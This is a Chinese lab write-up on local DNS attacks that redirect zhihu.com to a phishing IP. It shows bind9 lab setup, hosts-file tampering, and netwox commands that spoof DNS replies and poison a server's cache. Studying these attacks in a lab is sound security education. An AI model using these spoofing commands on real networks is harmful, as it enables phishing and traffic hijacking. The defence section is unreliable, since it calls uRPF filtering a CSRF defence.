 ## 钓鱼网站本地DNS攻击

### 当你浏览器中敲下知乎域名电脑做了什么?
- 访问网站概述
1.解析URL  
2.DNS查询  
2.1.查询本地浏览器DNS缓存  
```
chrome://net-internals/#dns
firefox: about:config
```
2.2.查询本地hosts文件  
```
/etc/hosts
```
2.3.查询本地DNS服务器  
2.4.查询上级DNS服务器  
- DNS协议概述

DNS(Domain Name System)通俗的讲就是手机号码和姓名备注的系统.  
比如我自己的黑客笔记  
域名是:hackbiji.top(http://isgt93.github.io)  
IP地址:192.30.252.154  
你更愿意选择输入什么?DNS就是将IP地址和域名对应起来的!  

- 为什么黑客能通过DNS协议钓鱼
DNS欺骗原理:
![DNS欺骗](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/DNS_Spoof.png)

DNS缓存中毒原理:
![DNS中毒](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/DNS_Spoof.png)
### 攻击环境配置
- 虚拟机各主机地址
```
攻击者:192.168.59.1
普通用户:192.168.59.146
DNS服务器:192.168.59.151
```
- DNS服务器环境配置
1. 安装bind9
2. 在`/etc/bind/named.conf.options`文件中添加:
```
options {
dump-file "/var/cache/bind/dump.db";
};
```
3. 添加文件`/var/cache/bind/example.com.db`,内容如下:
```
$TTL 3D
@	IN	SOA	ns.example.com. admin.example.com. (
		2008111001
		8H
		2H
		4W
		1D)

@	IN	NS	ns.example.com.
@	IN	MX	10 mail.example.com.

www	IN	A	192.168.59.151
mail	IN	A	192.168.59.151
ns	IN	A	192.168.59.151
*.example.com.	IN	A 192.168.59.151

```
4. 添加文件`192.168.59 `,内容如下:
```
$TTL 3D
@	IN	SOA	ns.example.com. admin.example.com. (
		2008111001
		8H
		2H
		4W
		1D)
@	IN	NS	ns.example.com.

151	IN	PTR	www.example.com.
151	IN	PTR	mail.example.com.
151	IN	PTR	ns.example.com.

```
5. 重启服务`service bind9 restart`.

- 普通用户环境配置
1. 编辑`/etc/resolv.conf`文件的`nameserver`字段为DNS服务器IP地址.
2. `ping www.example.com`能ping通则说明配置成功!
3. 通过nslookup查看`www.example.com`的IP地址为`192.168.59.151`.
```
root@ubuntu:/etc/bind# nslookup www.example.com
Server:		127.0.1.1
Address:	127.0.1.1#53

Name:	www.example.com
Address: 192.168.59.151
```
### 攻击DNS协议
- 不要让黑客接触你的电脑,他会做什么?
黑客会在`\etc\hosts`文件中添加下面的字段,将网址强行映射到一个错误的IP地址!  
```
192.168.59.151	zhihu.com
192.168.59.151	www.zhihu.com
```
实际效果如图所示:  
![zhihu](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/zhihu.com.png)

- 不要相信黑客伪造的DNS应答报文,他怎么伪造的?

```
netwox 105 -h "zhihu.com" -H "192.168.59.151" -a "ns.example.com" -A "192.168.59.151" -f "src host 192.168.59.146" -d vmnet8 -T 10
```
欺骗浏览器,告诉浏览器`zhihu.com`的IP地址是`192.168.59.151`,而这个错误的IP地址往往就是钓鱼网站!  

实际效果如图所示:  
![seed](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/seed.png)

- 小心把控DNS服务器Cache时间,严防DNS Cache中毒!

```
netwox 105 -h "www.zhihu.com" -H "192.168.59.152" -a "ns.example.com" -A "192.168.59.152" -f "src host 192.168.59.152" -d vmnet8 -s "raw"
```
实际效果如图所示:

![zhihu_dig](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/zhihu_dig.png)

来看看咱们的DNS服务器缓存
```
# rndc flush
# rndc dumpdb -cache
# cat /var/cache/bind/dump.db | grep zhihu
```
![zhihu_cache](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/zhihu_cache.png)

### 如何防御DNS攻击?

1. 平时注意不要相信陌生人的电话
2. 技术层面的CSRF防御

严格模式有 2 个条件,只有同时满足两个条件的报文,才会被检测通过.  
> 条件 1:在路由器转发表中,存在去往报文源地址的路由信息.  
> 条件 2:报文的入接口与转发表中去往源地址路由的出接口一致.  

在Router C 上配置严格型 URPF,当攻击者伪装源地址为 Normal User 地址,  
报文由 RA 接口进入 Router C,由于在 Router C 的转发表中,  
去往源地址Normal User 的路由出接口为 RB,而伪造报文的入接口为 RA,  
该伪造报文在Router C 上直接丢弃,并且在对称路由中 Normal User 可以正常访问 Server.  

如图所示:

![csrf](https://raw.githubusercontent.com/isGt93/Keep-learning/master/mySeedLab/DNS_Local/csrf.png)
